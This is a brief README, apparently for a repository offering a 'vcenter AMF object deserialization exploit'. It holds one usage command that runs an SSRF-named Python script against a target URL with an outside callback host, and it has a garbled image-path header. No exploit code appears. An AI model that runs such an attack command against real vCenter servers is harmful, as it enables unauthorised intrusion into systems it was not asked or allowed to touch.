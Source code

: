 # LongTail-AMF
vcenter AMF object deserialization exploit 


## Usage  
```bash
python3 random_ssrf.py http://target id.collab.net '/endpoint'
```
